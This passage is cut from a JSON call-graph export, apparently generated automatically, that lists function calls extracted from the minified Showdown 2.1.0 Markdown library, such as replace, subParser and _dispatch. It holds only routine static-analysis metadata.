"static/js/showdown-2.1.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replaceRecursiveRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "makeHtml"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "regexIndexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "splitAtIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replaceRecursiveRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replaceRecursiveRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replaceRecursiveRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 